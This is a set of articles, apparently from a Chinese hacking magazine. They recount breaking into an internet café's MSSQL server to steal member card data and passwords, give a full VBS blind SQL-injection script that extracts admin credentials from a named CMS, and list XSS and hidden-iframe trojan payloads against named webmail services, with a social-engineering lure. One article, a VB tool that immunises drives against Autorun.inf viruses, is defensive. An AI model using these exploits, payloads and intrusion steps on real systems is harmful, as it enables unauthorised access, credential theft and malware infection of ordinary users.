这些表中，只有netbar2004这个表是新建的，其它表都是系统默认存在的。打开netbar2004这个数据库，查看里面的表名，打开client1这个表，里面有30000多条记录，好像就是存放网吧会员资料的表，卡号、密码、余额、积分、姓名都一清二楚，如图4。


为了确定这是不是现在网吧的会员资料表，我让雪把他在网吧上网的卡号发给我，查询一下，看能不能查到雪的记录，SQL查询语句 `select * from client1 where 卡号='3544'`，查询结果如图5。


我把查询记录发给雪，雪说和他资料对上了，他卡上还剩25块钱。现在，要想办法把数据库里会员表的内容导出来，再做成Access格式的数据库传给雪就行了。SQL语句就可以直接备份数据库，SQL备份数据库的语句：

```sql
declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s='c:/winnt/e1' backup database @a to disk=@s WITH FORMAT
```


这条语句把数据备份到 `c:\winnt\` 目录下，备份的文件名是e1。雪在网吧那边，把数据库服务器上备份的文件下载到本地，然后把备份的数据库文件打包传给我。我在本地用SQL企业管理器成功恢复数据库，如图7。然后，利用SQL企业管理器导出数据库的功能，把数据导出成Access格式的数据库，数据库导出成功，如图8、9。


最后，我把导出的以.mdb后缀结尾的数据库传给了雪。雪顺利在网吧那边打开数据库，查看到了网吧所有会员的资料，联合入侵网吧之终极计划成功完成。

正准备把文章投出去的时候，雪从网上找到了一个不错的SQL分离查询器分离版，比网上的那个分离器全面多了，而且也不会出现执行命令关闭的情况，工具会收录在光盘中，我也试验过，效果还不错，非常全面，希望在入侵的时候能给大家带来一些帮助。

# 四、入侵总结

这篇入侵文章是和好朋友雪共同完成的，没用到什么高深的技术，因为这种类型的文章比较少，比较有意思，我就发了。lcx.exe这个工具在内网中作用非常强大，希望大家好好理解。如果文章中有什么不懂的地方，请到《黑客手册》论坛与我讨论，我ID是rabbitsafe。

> 【文章中涉及到的工具lcx.exe和MsSqlServer_Green_V4.0在光盘中有收录】

> **编辑点评：**
> 由于内网的原因而做端口映射是本文的亮点，这几乎是每个内网入侵活动的必要步骤了。越来越多的网吧管理软件开始采用MSSQL数据库，这的确会使一些初学者退后，但这样始终只是换汤不换药的做法，安全做得不到位用谁的系统都一样。这是一次里应外合的入侵，正印证了那句话：再坚固的堡垒都能从内部摧毁掉！


## 打造Autorun.inf类病毒的疫苗


张宇栏首

> “善于假物也，善假于物也”

这句话的本意是一个水平很高的人本身并不一定很高明，关键是他善于利用别人的高明！其意义是要充分利用自己身边的资源，不放过任何一个可以提高自己的机会，通过学习别人的源代码将其思想扩展到自己的思想里去。

smallrascal [yulv]

- 从本文你可以学到：
- 了解Autorun.inf的功能及此类病毒的传播原理
- 了解文件夹及文件的特点
- 利用无法删除的文件夹来保护相应内容

## 起因

最近在做公司电脑维护时发现好多机器的每个分区都感染了Autorun.inf类的病毒，只要用Web方式查看分区的根目录，就能激活病毒程序。经询问，是同事使用优盘后才出现的，检测优盘发现的确已经被感染了。虽然这一类病毒不是很难对付，删除相应的文件即可，但是删除后还会感染，又要进行一次重复的手工劳动。既然如此，那就对症下药，找出适当的疫苗来永久地免疫Autorun.inf类病毒吧！

## 分析

我们先来了解一下Autorun.inf，它是一个文本形式的配置文件，可以用文本编辑软件进行编辑，它只能位于分区的根目录下。这个文件包含了需要自动运行的命令，如改变的驱动器图标、运行的程序文件、可选快捷菜单等内容。正因为其中运行指定程序的功能被病毒恶意利用，造成了优盘、MP3等移动存储类设备病毒满天飞，导致病毒轻而易举地进行传播。


在MS的系统中，文件夹也是一种文件，只不过其属性特殊了一点而已。既然文件夹也是文件，那么按照MS定下的规矩——在同一文件夹下不能出现相同文件名的文件，也就是说如果已经存在一名为“Autorun.inf”的文件夹，那么该文件夹下就不能再有一名为“Autorun.inf”的文件，如图1所示。

图1中最后用TYPE命令显示Autorun.inf文件的内容，得到的结果是“拒绝访问”，这一点也可以证明其访问的是文件夹，而不是文件，因为只要是文件，不管是ASCII还是二进制程序，都会被TYPE命令显示出来。那么我们只要在所有分区的根目录下建立一个名为“Autorun.inf”的文件夹，就能永久免疫Autorun.inf类病毒的骚扰了。可是另一个问题出现了，病毒也很聪明，可以检测根目录下是否存在“Autorun.inf”的文件夹，存在的话先删除，再建立“Autorun.inf”的文件，同样达到其目的，而破坏了我们的免疫效果。那又该如何对付呢？

记得以前的Nohack上提过建立无法删除的文件夹来存放后门程序，这里将此技术借来使用。具体原理不再赘述，诸多见以前的Nohack。我们在命令行下进入上面建立的“Autorun.inf”的文件夹中，用DOS命令MD来建立无法删除的文件夹，具体命令如图2所示。


建立完成后用DIR命令查看，发现原先建立的是“免疫目录.\”，而查看到的结果是“免疫目录.”，少了“\”。使用资源管理器删除此文件夹，结果如图3所示，无法正常删除。


这样病毒就无法删除“Autorun.inf”文件夹了，达到了既免疫又无法删除的目的。每台机器的每个分区都要手工来做，相当麻烦，还不赶快用代码来实现！


## 设计

先给出界面布局及对应控件属性，如图4、图5所示。

| 对象 | Name | Caption | List |
|---|---|---|---|
| Label | lblDriver | 盘符： | 无 |
| ComboBox | cobDriver | 无 | 空 |
| CommandButton | DoDriver | 执行 | 无 |

图5 对应控件属性

首先需要进行程序初始化，获取该机器硬盘的所有分区，将其添加进组合框中供使用者进行选择。这里使用脚本系统中的文件系统对象，以获取驱动器对象的驱动器类型。具体代码如下：

```vb
Private Sub Form_Load()
    ' 获取硬盘盘符列表
    Call GetDriverType
End Sub

Private Sub GetDriverType()
    Dim fs        '定义文件系统、盘符及盘符对应属性的变量
    Dim Driver As Integer    '定义当前盘符名的变量
``````vb
Dim DriverPath As String    ' 定义当前盘符根的变量
' 建立文件系统对象
Set fs = CreateObject("Scripting.FileSystemObject")
' 循环变量，C 至 Z 盘
For Driver = 67 To 90
    ' 获取当前盘符的根
    DriverPath = Chr(Driver) & ":\"
    ' 获取当前盘的文件系统对象
    Set d = fs.GetDrive(DriverPath)
    ' 设置错误陷阱，防止磁盘不存在而导致程序崩溃
    On Error GoTo Err
    ' 根据获取的盘符类型进行判断
    Select Case d.DriveType
        Case 0: t = "Unknown"
        Case 1: t = "Removable"
        ' 是硬盘，则添加到组合框中以供选择
        Case 2: t = "Fixed": cobDriver.AddItem Chr(Driver) & ":"
        Case 3: t = "Network"
        Case 4: t = "CD-ROM"
        Case 5: t = "RAM Disk"
    End Select
    Debug.Print "Drive " & d.DriveLetter & " - " & t
Next
' 错误陷阱标号
Err:
End Sub
```

```vb
' 执行选定盘符的免疫
Private Sub DoDriver_Click()
    ' 设置“执行”按钮为无效，防止执行过程中再次点击而导致程序崩溃
    cobDriver.Enabled = False
    ' 判断选择盘符是否可读，即是否存在
    If Dir(cobDriver.Text & "\") = "" Then
        ' 不可读，则给出错误提示
        MsgBox "输入/选择盘符错误！", vbCritical
        ' 设置错误陷阱，防止因盘符不可读而导致程序崩溃
        On Error GoTo Err
    End If
    ' 设置错误陷阱，防止下面要建立的目录存在而导致程序崩溃
    On Error Resume Next
    ' 建立“Autorun.inf”为目录名的目录
    Call MkDir(cobDriver.Text & "\Autorun.inf")
    ' 在“Autorun.inf”目录中建立“免疫目录..\”字符的特殊目录
    Call MkDir(cobDriver.Text & "\Autorun.inf\免疫目录..\")
    ' 设置“Autorun.inf”目录为只读+隐藏+系统属性，进行简单隐藏
    Call SetAttr(cobDriver.Text & "\Autorun.inf", vbReadOnly + vbHidden + vbSystem)
    ' 错误陷阱标号
Err:
    ' 设置“执行”按钮为有效
    cobDriver.Enabled = True
End Sub
```

接着在选择好相应的分区后添加“\”，以方便 DIR() 函数判断指定分区是否可读，如果可读则建立“Autorun.inf”文件夹，并在“Autorun.inf”文件夹中建立“免疫目录..\”文件夹。在建立文件夹之前因“免疫目录..\”文件夹特殊，无法正常访问，所以要设置错误陷阱，防止因文件夹已经存在而导致建立错误。其具体代码如下：

至此，一个永久免疫 Autorun.inf 类病毒的疫苗就诞生了。不多说了，最后留下我的 Blog：http://www.smallrascal.cn，欢迎各位常来坐坐喝喝茶。

> （作者提到的 Autorun.inf 类病毒疫苗的代码已收录在光盘中）

**编辑点评：** 作者利用了 MS 的两个“特殊”功能，巧妙地制作出了 Autorun.inf 类病毒的永久疫苗，有本事真的不妨小看 MS 留下的这些小功能哦！

# 用 VBS 玩注入

## ——从南方数据企业网站管理系统漏洞看 VBS 注入工具的编写

- 从本文你可以学到：
- 分析南方数据企业网站管理系统的漏洞
- 初步学习 VBS
- VBS 编程实现注入

对于我们某些玩脚本的朋友，可能对 C、DELPHI、VB 等工具接触得比较少，当我们深入到程序中并发现它的漏洞时，对某些注入漏洞的利用，要手工完成才行，玩过手工注入的朋友都知道，如此注入，不但速度慢，而且累人。其实，在不熟悉上述编程语言的情况下，我们可以利用 VBS 脚本编写一个辅助注入工具，这样就可以大大提高注入的效率了。

## 分析

下面我们就以南方数据企业网站管理系统为例，分析其漏洞的形成，并针对该漏洞编写 VBS 辅助注入工具。南方数据企业网站管理系统漏洞存在于 useredit.asp，其 5-77 行代码如下：

```vb
dim Action, UserName, FoundErr, ErrMsg
dim rsUser, sqlUser
Action=trim(request("Action"))
UserName=trim(request("UserName")) ' 直接取得 username 的值，没进行合法判断
if UserName="" then
    UserName=session("UserName")
end if
if UserName="" then ' 若 username 为空，action 为空则转向 UserServer.asp
    if Action="" then
        response.redirect "UserServer.asp"
    else
        FoundErr=True ' 若 username 为空，action 不为空，则显示参数不足
        ErrMsg=ErrMsg & "<br><li>参数不足！</li>"
    end if
end if
if FoundErr=true then
    call WriteErrMsg()
else
    Set rsUser=Server.CreateObject("Adodb.RecordSet")
    sqlUser="select * from [User] where UserName='" & UserName & "'"
    ' ... 将没过滤的 username 提交查询
    rsUser.Open sqlUser,conn,1,3
    if rsUser.eof and rsUser.bof then ' 如果没有找到用户信息，则显示找不到指定的用户
        FoundErr=True
        ErrMsg=ErrMsg & "<li>找不到指定的用户!</li>"
        call WriteErrMsg()
    else
        if Action="Modify" then ' 若 Action=Modify，则取得所有提交过来的值
            dim Sex,Email,Homepage
            Sex=trim(Request("Sex"))
            ...
            ' 如果取得的值都为空，则提示“性别不能为空”、“Email不能为空”……
            if Sex="" then
                FoundErr=True
                ErrMsg=ErrMsg & "<br><li>性别不能为空</li>"
            else
                Sex=cint(Sex)
                if Sex<0 and Sex>1 then
                    Sex=1
                end if
            end if
            if Email="" then
                FoundErr=True
                ErrMsg=ErrMsg & "<br><li>Email不能为空</li>"
            else
                if isValidEmail(Email)=false then
                    ErrMsg=ErrMsg & "<br><li>您的Email有错误</li>"
                    FoundErr=True
                end if
            end if
            if CompanyName="" then
                FoundErr=True
                ErrMsg=ErrMsg & "<br><li>公司名称不能为空</li>"
            end if
            if Add="" then
                FoundErr=True
                ErrMsg=ErrMsg & "<br><li>收货地址不能为空</li>"
            end if
            if Receiver="" then
                FoundErr=True
                ErrMsg=ErrMsg & "<br><li>收货人不能为空</li>"
            end if
            if Phone="" then
                FoundErr=True
                ErrMsg=ErrMsg & "<br><li>联系电话不能为空</li>"
            end if
```

我们来分析一下这段代码的执行过程。程序首先将没有经过合法判断的变量 username 提交 SQL 查询 user 表，如果在数据库中没有找到匹配的信息，则显示“找不到指定的用户”；否则找到对应用户后，当 Action="Modify" 时，继续获取性别、Email、公司名称等相对应的变量，如果这些变量用户都没有输入（即为空），那么程序将提示“性别不能为空”、“Email 不能为空”、“公司名称不能为空”等后面一连串不能为空的信息。看着这条数据库查询语句：sqlUser="select * from [User] where UserName='" & UserName & "'"，要使查询结果为真，我们可以这样构造语句：select * from [User] where UserName='ttfct' or '1'='1' and exists(select * from admin) and '1'='1'，即把 ttfct' or '1'='1' and exists(select * from admin) and '1'='1 赋值给 username。由于数据库中没有 ttfct 这个用户，但存在 admin 表，这两个条件将使我们的查询结果为真，若我们后面的信息都不再填，那么将提示“性别不能为空”、“Email 不能为空”等一连串不能为空的信息，如图 1 所示。

若我们构造的语句错误，使得查询的结果为假，那么程序将提示：找不到指定的用户，如图 2 所示。到此这个漏洞的基本原理我们已经明白了，现在我们来编写辅助注入程序。

## 编程思路及实现方法

编写此程序，我们要实现五个功能：判断是否存在注入、获取管理员的 ID 号、猜解用户名长度、猜解用户名及猜解 MD5 密码。

在分析之前，我们先给出程序定义部分和一个函数 BytesToBstr：

```vb
' 程序定义部分
On Error Resume Next          ' 容错处理
Dim Arg                       ' 设置参数
Dim Attackurl,Attackok        ' 漏洞 URL、标志
Dim Tempmd5                   ' 存放获取的 MD5 密码
Dim Md5pwd                    ' MD5 密码列表
Dim i,str,k,n,m,t
Dim usename,ustrtmp,user,myid,myid2   ' 用户列表、ID 信息、用户名
Set Arg = WScript.Arguments   ' 只接收一个参数
If Arg.Count <> 1 Then
    WScript.Echo vbCrLf & "程序使用方法"
    WScript.Echo vbCrLf & "cscript " & WScript.ScriptFullName & " url"
Else
    Set Xml = CreateObject("Microsoft.XMLHTTP")
    ' 目标网址
    Attackurl = Arg(0)
    If LCase(Left(Attackurl,7)) <> "http://" Then Attackurl = "http://" & Attackurl
    Tempmd5 = ""
    user = ""
    Md5pwd = Split("0,1,2,3,4,5,6,7,8,9,a,b,c,d,e,f",",")
    ustrtmp = "0,1,2,3,4,5,6,7,8,9,a,b,c,d,e,f,g,h,i,j,k,l,m,n,o,p,q,r,s,t,u,v,w,x,y,z"
    usename = Split(ustrtmp,",")
    GetWeak(Attackurl)
    myid2 = myid
    If Attackok = 1 Then
        WScript.Echo vbCrLf & "恭喜，漏洞存在！现在开始注入"
    Else
        WScript.Echo vbCrLf & "可能漏洞已修补了"
    End If
    ' BytesToBstr() 函数
    Function BytesToBstr(body)
        dim objstream
        set objstream = CreateObject("ADODB.Stream")
        objstream.Type = 1
        objstream.Mode = 3
        objstream.Open
        objstream.Write body
        objstream.Position = 0
        objstream.Type = 2
        objstream.Charset = "GB2312"
        BytesToBstr = objstream.ReadText
        objstream.Close
        set objstream = nothing
    End Function
End If
```

要实现这五个功能，我们要使用“MICROSOFT.XMLHTTP”这个组件。如果我们提交语句：/UserEdit.asp?Action=Modify&username=ttfct' or '1'='1' and exists(select * from admin where id='"&t&"') and '1'='1，我们让变量 t 从 1 循环到 10（说明一下为什么要在这里加上 where id='"&t&"'，这是因为可能使用了此系统的用户把原来的管理员删除了，然后重新添加管理员，那么，ID 将不再是 1），在这 10 个 ID 里面应该可以找到一个 ID 使 SQL 查询为真，从而得到和图 1 相同的结果。由于返回的信息是以 HTML 页面呈现出来的，所以我们通过 Xml.ResponseBody 方法获得 HTML 页面的所有代码，并使用 VBS 中的函数 InStr() 进行查找字符串“性别不能为空”，如果查找的结果返回不为 0（即查找到匹配字符串），那么则说明网站存在注入，这时把 t 的值赋值给另一个全局变量 myid2，这样就可以确定此网站是否存在注入，如果存在注入就获取用户 ID 号。具体代码如下：

```vb
' 此函数用于判断页面是否存在注入，并获取管理员 ID 号，记录下可以注入标志 Attackok
Function GetWeak(url)
  For t = 1 To 10
    url = url & "/UserEdit.asp?Action=Modify&username=ttfct' or '1'='1' and exists(select * from admin where id='" & t & "') and '1'='1"
    Xml.open "post", url, False
    Xml.send
    postPage1 = BytesToBStr(Xml.ResponseBody)
    If InStr(postPage1, "<title>无法找到网页</title>") = 0 And InStr(postPage1, "您正在搜索的网页可能已经删除、更名或暂时不可用") = 0 Then
      If InStr(postPage1, "性别不能为空") <> 0 Then
        myid = t
        Attackok = 1
        Exit For
      End If
    End If
  Next
End Function
```

在页面存在注入的情况下，我们就可以获取用户名长度，构造的语句为：`UserEdit.asp?Action=Modify&username=ttfct' or '1'='1' and (select len(username)='"&i&"' from admin where id='"&myid2&"') and '1'='1`，我们取 i 变量的值从 1 循环到 15 就行了。然后用同样的原理判断，从而计算出其长度，实现代码如下：

```vb
' 用户名长度获取，并赋值给变量 str
If Attackok = 1 Then
  WScript.Echo vbCrLf & "正在获取信息，请稍候^^"
  WScript.Echo vbCrLf & "成功获取用户ID号为：" & myid2
  For i = 1 To 15
    Openurl2 = Attackurl & "/UserEdit.asp?Action=Modify&username=ttfct' or '1'='1' and (select len(username)='" & i & "' from admin where id='" & myid2 & "') and '1'='1"
    Xml.open "post", Openurl2, False
    Xml.send
    postPage2 = BytesToBStr(Xml.ResponseBody)
    If InStr(postPage2, "性别不能为空") <> 0 Then
      WScript.Echo vbCrLf & "获取用户名长度：" & CStr(i)
      str = i
    End If
  Next
End If
```

这样就成功地获取了用户名长度，并把获取的长度赋值给一个全局变量 str，方便猜解用户名时用。猜解用户名要使用双重循环，看看注入语句相信你应该就会明白了：`UserEdit.asp?Action=Modify&username=ttfct' or '1'='1' and (select mid(username,"&k&",1)='"&username(i)&"' from admin where id='"&myid2&"') and '1'='1`，一个是截取用户名各位数，另一个是截取对应位数上的用户名，所以用到双重循环了，实现代码如下：

```vb
' 猜解用户名
If Attackok = 1 Then
  For k = 1 To str
    For i = 0 To UBound(username)
      Openurl3 = Attackurl & "/UserEdit.asp?Action=Modify&username=ttfct' or '1'='1' and (select mid(username," & k & ",1)='" & username(i) & "' from admin where id='" & myid2 & "') and '1'='1"
      Xml.open "post", Openurl3, False
      Xml.send
      postPage3 = BytesToBStr(Xml.ResponseBody)
      If InStr(postPage3, "性别不能为空") <> 0 Then
        WScript.Echo vbCrLf & "获取用户名：" & username(i) & " 正在读取中 请等待。。。"
        user = user & username(i)
      End If
    Next
  Next
End If
```

同样，获取 MD5 加密密码也要用到双重循环，构造的语句为：`UserEdit.asp?Action=Modify&username=ttfct' or '1'='1' and (select mid(password,"&n&",1)='"&Md5pwd(m)&"' from admin where id='"&myid2&"') and '1'='1`，具体实现代码如下：

```vb
' 猜解 MD5 密码
GetWeak(Attackurl)
If Attackok = 1 Then
  For n = 1 To 16
    For m = 0 To 15
      Openurl4 = Attackurl & "/UserEdit.asp?Action=Modify&username=ttfct' or '1'='1' and (select mid(password," & n & ",1)='" & Md5pwd(m) & "' from admin where id='" & myid2 & "') and '1'='1"
      Xml.open "post", Openurl4, False
      Xml.send
      postPage4 = BytesToBStr(Xml.ResponseBody)
      If InStr(postPage4, "性别不能为空") <> 0 Then
        WScript.Echo vbCrLf & "已获取的MD5为：" & Md5pwd(m) & " 正在读取中 请等待。。。"
        Tempmd5 = Tempmd5 & Md5pwd(m)
      End If
    Next
  Next
End If
```

这里的双重循环和猜解用户名原理相同，经过这五步，我们就成功地实现了自动注入猜解的功能。

利用方法很简单，`cscript exp.vbs http://www.xxx.com`，测试效果如图 3 所示。

到此程序编写测试完毕。（作者提到的网址过滤程序的代码已经收录在光盘中）

> **编辑点评：**
>
> VBS 也能用来进行注入猜解，真是大千世界无奇不有啊！凭注入的攻击性，以后就不要为了找注入工具而烦恼了，可以根据本文打造自己有针对性的注入程序，更重要的是任何一台机器都可以运行！

# 圣诞餐具

国内广泛网站的邮箱再次陷入此次 Hack 噩梦，被测试过的 Mail 几乎都存在不同程度的瑕疵。虽然有想到，拥有众多用户的一些邮箱竟然如此不堪一击。因为 Mail 的运转离不开一些代码，而这些代码对用户安全不够重视。本期的黑客餐具为你展示在 HACK 精妙的代码之下邮箱的脆弱性是如何暴露的。

# Sina、TOM、Sohu、21CN、163、QQ、126、Yahoo 等国内邮箱零跨站漏洞

曾云好（湖南长沙）

- 从本文中你可以学到：
- 跨站的一些基本做法
- 作者的一些思路

在几个月前，国内的邮箱跨站漏洞被一些牛人们发现了，而且有详细的攻击方法和进入他人邮箱的演示过程。如今几个月过去了，邮箱的漏洞修补得怎么样了？是否如人们想像的那么完美呢？经过我一番对比的对 TOM、SOHU、21CN、163 的邮箱黑箱测试，发现它们的安全性还是不尽人意，又出现了其他跨站漏洞。下面就仔细来分析它们的新跨站漏洞吧。

## 一、TOM 邮箱跨站

### 1. HTML 跨站

我先注册一个 SOHU 的邮箱，然后给 TOM 邮箱发送一封邮件，在邮件的主题和内容上都输入跨站代码 `<script>alert("TOM跨站")</script>`。在 TOM 邮箱收到邮件后打开，如图1所示。没有产生跨站效果，通过查看客户端代码发现都被转换了：

```html
<td class="T8_bg_EC" nowrap="nowrap">主题(Subject)</td>
<td>&lt;script&gt;alert(&quot;TOM跨站&quot;)&lt;/script&gt;</td>

...省略代码...

内容：<br>&lt;script&gt;alert(&quot;TOM跨站&quot;)&lt;/script&gt;<br>
```

但是 TOM 提供了一个这样的功能，如图2所示。那就是可以下载整个邮件，而且下载回本地后是用 HTML 格式保存的。下载到本地后我们打开这个文件就出现了跨站效果，如图3所示。

为什么会出现这种情况呢？我们先来看看邮件的原文：

```html
Content-Type: text/plain;
charset="GB2312"
Content-Transfer-Encoding: 8bit
<script>alert("TOM跨站")</script>
没有过滤

html
<html>
<head>
<meta http-equiv="content-type" content="text/html; charset=GB2312">
</head>
<body>
<!-- SOHUMAIL-HTML-HEAD-END -->
<script>alert("TOM跨站")</script>
没有过滤
<hr size=1><style type="text/css">
a {font-size:12px;color:black}
a:hover {font-size:12px;text-decoration:underline}
...
</style>
<table border=0>
<tr><td height=18><a href="http://goto.sohu.com/goto.php?code=mailad" target=_blank>...</a>
```

```html
() 免费劳务偷懒 </font></a>
</td><td rowspan=2>
</td></tr>
<br>
<tr><td height=18><a href="http://goto.sohu.com/goto.php?code=mailad" target=_blank>用搜狐邮箱写邮件，体验更流畅的中文输入...</a>
</td></tr>
</table>
```

可以很清楚地看到原文的跨站代码没有被过滤，而后第二个跨站代码是在一个网页文件中。我们下载这个网页其实就是把原文中的部分代码下载了下来，但由于它里面的跨站代码并没有过滤，所以出现了跨站漏洞，而且只有一个跨站代码被执行了。不过这个漏洞还是有点奇怪，如果是用 TOM 邮箱给 TOM 邮箱发送跨站代码，这个漏洞就不存在了。

### 2. 签名跨站

TOM 邮箱一个比较好的功能是提供签名来识别邮件，如图4所示。但是它这里的签名却没有过滤好，比如我们输入的签名是跨站代码，如图5所示。修改后就出现了跨站效果，如图6所示。而且我们每次在

```html
<form name="sendmail" method="post" action="cgi/dmapp?funcid=compose&sid=IAYFoBNfQWqA"> ... <input type="hidden" name="signoption" value="&lt;option value=&quot;1&quot;&gt;&lt;script&gt;alert(&quot;TOM 签名跨站&quot;); //跨站代码被转义了&lt;/script&gt;&lt;/option&gt;"> ... <select name="sign" size="1"> <option value="0" selected>不使用</option> <option value="1"><script>alert("TOM 签名跨站")</script></option> ...
```

可以发现签名的两个输入框，它只过滤了签名的内容，而签名的提示却没有。所以这里会出现一个跨站漏洞。

## 三、21CN 邮箱跨站

### 1. 邮件签名跨站

21CN 有一个邮件签名的功能，它是用来对发出去的每个邮件都签上自己的名字。这个签名可以自己随便设定，如图7所示。

我们在签名的标题和正文都输入跨站代码 `<script>alert("21cn 签名跨站")</script>`。点击保存后，就可以跨站了，效果如图8所示。

### 2. 地址本跨站

21CN 还提供了一个地址本的功能，这里可以手工加入用户的邮箱地址，如图9所示。输入跨站代码 `<script>alert("21cn 地址本跨站")</script>` 后并没有实现跨站，打开客户端代码，`<input size="20" name="Key" value="<script>alert('21cn 地址本跨站')</script>">`。我们的代码被双引号闭合了，避开双引号是我们的任务了。经过一番分析发现 `"><script>alert('21cn 地址本跨站')</script><"#` 可以绕过双引号的封锁，成功地跨站了，如图10所示。

### 3. 邮箱挂马漏洞

21CN 邮箱还有个巨大的漏洞就是可以用来挂马，而且有两个挂马漏洞。我们先来写封邮件，我用的是 21CN 邮箱给 21CN 邮箱发的邮件，如图11所示。我在邮箱的链接中加入了挂马代码。等我收到邮件后打开，发现出现了漏洞，如图12所示。

这是第一个挂马漏洞，再来测试第二个。我们先发邮件，在邮件的内容中写入挂马代码，如图13所示。在我们收到邮件后，肯定要回复邮件，我们点击回复发件人后，就出现挂马效果了，如图14所示。

## 三、下载邮件跨站

首先要声明，TOM 邮箱提供两个下载邮件的功能，上面所讲述的是下载后是 HTML 文件功能的下载方式，而这里说的是下载后是 eml 格式方式的。这种方式目前 TOM、SOHU、21CN、163 等国内的邮箱都提供这个功能，目前国内提供这个功能的邮箱都存在这个漏洞。可以变相地用来跨站，而且下载回来的文件格式是 eml，如图15所示。它是 Outlook 的一种邮件格式，可以用 Outlook 打开。如果用 Outlook 打开是不会出现跨站漏洞的，但是如果把后缀名改成 HTML 格式就出现了跨站。这里拿 163 和 Sohu 来测试，如图16和图17所示。

## 四、QQ 邮箱跨站

### 1. 邮箱显示昵称跨站

QQ 邮箱借助 QQ 在国内通讯软件上的统治地位，拥有着非常大的用户群。相对于其他邮箱，它的功能较少，但是比较简洁好用。目前拥有简洁版 Beta02 和 QQMail3.0 两个版本。简洁版中有一个邮箱显示昵称的功能，如图18所示。

如果直接输入 `<script>alert("邮箱显示昵称跨站")</script>` 并不能够得到跨站效果，下面是返回来的代码：

```html
<table width="100%" border="0" cellspacing="0" cellpadding="8" class="settingtable">
<tr>
<td width="120" align="right" class="settingtd"><b>邮箱显示昵称:</b></td>
<td class="settingtd"><input name="nickname" type="text" class="text" value="<script>alert('邮箱显示昵称跨站')</script>" maxlength="32"></td>
<td align="right" class="settingtd"><b>每页显示:</b></td>
<td class="settingtd">
<select name="showcount" class="sel">
<option value="1" selected="selected">25</option>
<option value="2">50</option>
<option value="3">100</option>
</select>
</td>
</tr>
</table>
```

我们发现跨站代码被双引号闭合了，但是可以用 `<script>` 标签来突破限制，输入 `"></script>alert("邮箱显示昵称跨站")</script><"` 即可突破，从而得到跨站，如图19所示。

### 2. 通讯录跨站

QQ 邮箱除了默认的 QQ 好友邮箱外，还可以自己添加联系人，如图20所示。

在备注的输入框中可以输入跨站代码，其他地方做了限制，输入 `<script>alert("通讯录跨站")</script>` 即可看到效果，如图21所示。

## 五、126 邮箱跨站漏洞

### 1. RSS 阅读跨站

126 邮箱本人认为是国内最专业的，也是功能最齐全的邮箱。但是功能多了，邮箱的结构也就复杂了，安全性自然也就更加匮乏了。在它的邮箱服务中，提供了一个 RSS 的阅读功能，上面有很多的模块，如添加订阅、管理目录和订阅、生成 OPML 等等。在管理目录和订阅中我们可以自己添加目录，如图22。可这里并没有对 `<` 和 `>` 转换，所以我们输入图片跨站代码 `</img>` 后就出现了漏洞，如图23所示。

### 2. 签名跨站

在个人邮件设置中提供了一个签名的小服务，可以自己修改签名，所以我们输入跨站代码 `</img>` 后得到的结果如图24所示。既然不可以有双引号，那么把它改成单引号，不就绕过了？如图25所示。

## 六、Yahoo 邮箱跨站

Yahoo 邮箱也是国内顶尖的一个邮箱服务提供商，功能上并不亚于其他邮箱。在邮件管理的地址维护中，我们可以自己编辑发件人姓名、回复地址等等一些选项，如图26所示。

我们在上面输入跨站代码后发现可以跨站，但是被双引号闭合了，代码如下：

```html
<table cellpadding=4 cellspacing=0 border=0 width="100%">
<tr valign=top>
<td class="label"><a name=fromname></a>发件人姓名:</td>
<td>
<input type=text name="FromName" value="<script>alert('cmd')</script>" class=tf size=20 maxlength=30>
<span class="helptext">该姓名将出现在发送邮件的“发件人”一栏中。</span>
</td>
</tr>
<tr valign=top>
<td class="label"><a name=replyto></a>回复地址:</td>
<td>
<input type=text name="ReplyTo" value="<script>alert('cmd')</script>" class=tf size=20 maxlength=40>
</td>
</tr>
</table>
```

所以只要输入 `"><script>alert("cmd")</script><"` 就可绕开双引号的限制了，如图27所示。

同时在邮件管理中还提供了一个电邮地址通告，它的作用是发送一张卡片给你的朋友通知你的新 Yahoo! 电邮地址，如图28所示。

通过我的测试发现在收件人输入框没有数据进行转换，当然这里和上面一样，被双引号闭合了，所以要输入代码 `"><script>alert("电邮地址通告跨站")</script><"` 才可以跨站，如图29所示。

## 七、总结

尽管官方把原来的邮箱漏洞给补上了，但是还是存在着一些地方的参数没有过滤或者转换，让我们依然有机会去攻击。最近很多初学的朋友问我，跨站到底有什么用，只是弹出一个对话框是什么意思？其实跨站漏洞的问题本质上是属于 HTML 的注入问题，如果没有严格筛选用户输入的数据，那么浏览器就会去执行恶意用户所输入的 HTML 代码。有了跨站其实我们可以做很多事，比如获取 Cookies，我 `<script>alert(document.cookie)</script>` 就可获得 Cookie 值。更重要的一个运用就是挂马，一般来说可以输入 `<iframe frameborder=0 width=0 height=0 src=http://www.haha.com/xixi.html></iframe>` 来挂马，这里我用 21CN 的邮箱来测试，如图14所示，我在邮件的主题和内容上都输入：`<iframe src="http://www.baidu.com" width="300" height="300" frameborder="0"></iframe>`，等我收到邮件后打开，这个时候就出现了 BAIDU 的页面了，而且是只要打开邮件就可中马。如果要挂马直接把地址修改成你的木马地址，并把高度和宽度都改成零即可。如果可以引入 JS 文件，那么还可以在 JS 文件中写入：`document.write("<iframe style='display:none;' src='http://www.haha.com/xixi.html'></iframe>");`，如果是支持 CSS 样式，那么我们还可在 CSS 代码中加入我们的跨站代码，这样的隐蔽性就更加强了。代码如下：

```css
body{
  background-image:url('javascript:document.write("<script src=http://www.haha.com/xixi.js></script>")')
}


```

对于上述的跨站漏洞，完全可以把跨站代码改成窃取 Cookies 值的代码或者挂马代码。不过这里要别人中马得用到一点社会工程学的知识，要骗别人去把邮件下载下来。比如对 TOM 的 HTML 跨站漏洞我们可以这样欺骗别人，在邮件的内容大致可以这样写：“TOM 电影大放送，某某最新电影我们提供在线观看，但必须要把邮件下载到本地后才可得到电影地址。这里我们为了增加访问量而专门开发的一项技术，谢谢您的合作！”那么只要用户下载了邮件，打开邮件的同时我们的木马地址也打开了，我们的肉鸡就是这样获得的。我想这对于初学者来说就明白了跨站的真正目的了吧。这里只是理论上的探讨，如有利用本文技术而触犯法律的行为与本人无关。

小编：在本期手册即将进厂之时，作者又发现了新浪邮箱的跨站漏洞。于是，特补在本专题最后。

# Sina 邮箱测试

Sina 作为国内最早提供邮箱功能的门户网站之一，其邮箱拥有大量的用户。不过，通过我的测试发现它在对信件的下载处同样没有处理好数据，我给自己发一封邮件，其中邮件主题写上：`<script>alert("漏洞咯")</script>`。在收到邮件后，点击“原件下载”，然后把原来的文件的 eml 后缀名改为 HTML，最后保存本地。之后我们打开就可以发现存在跨站漏洞，如图30所示。

图30

